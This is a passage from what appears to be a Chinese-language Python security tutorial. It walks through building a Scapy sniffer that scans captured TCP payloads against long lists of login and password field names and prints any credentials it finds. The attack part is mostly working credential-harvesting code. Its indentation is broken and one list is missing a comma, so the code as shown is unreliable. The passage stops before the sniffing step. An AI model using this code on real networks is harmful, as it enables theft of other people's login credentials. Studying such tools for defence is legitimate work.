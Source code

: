 4.  创建一个方法来检查嗅探内容中的用户名和密码：

```
def get_login_pass(body):    
    user = None
    passwd = None    
    userfields = ['log','login', 'wpname', 'ahd_username', 
'unickname', 'nickname', 'user', 'user_name',
    'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
    'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
    'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
    'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword', 
    'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword', 'login_password'
    'passwort', 'passwrd', 'wppassword', 'upasswd','senha','contrasena']    
     for login in userfields:
          login_re = re.search('(%s=[^&]+)' % login, body, re.IGNORECASE)
          if login_re:
              user = login_re.group()
      for passfield in passfields:
          pass_re = re.search('(%s=[^&]+)' % passfield, body, re.IGNORECASE)
         if pass_re:
             passwd = pass_re.group()    
     if user and passwd:
         return (user, passwd)  
```

在这里，我们使用数据中的关键字进行搜索，并提取有效负载中的用户名和密码（如果存在）

5.  现在，创建一个函数来解析嗅探到的数据包：

```
def pkt_parser(pkt):    
    if pkt.haslayer(Ether) and pkt.haslayer(Raw) and not pkt.haslayer(IP) and not pkt.haslayer(IPv6):
           pass       
      if pkt.haslayer(TCP) and pkt.haslayer(Raw) and pkt.haslayer(IP):
          pkt[TCP].payload
          mail_packet = str(pkt[TCP].payload)    
          body = str(pkt[TCP].payload)
          user_passwd = get_login_pass(body)
          if user_passwd != None:
              print(parse.unquote(user_passwd[0]).encode("utf8"))
              print(parse.unquote( user_passwd[1]).encode("utf8"))
      else:
          pass  
```

首先，我们将忽略没有 IP 层的原始数据包。然后我们得到 IP 层并提取有效负载，然后将其传递给`get_login_pass()`方法以提取凭证。

6.  现在，开始嗅探所提供接口中的数据包：
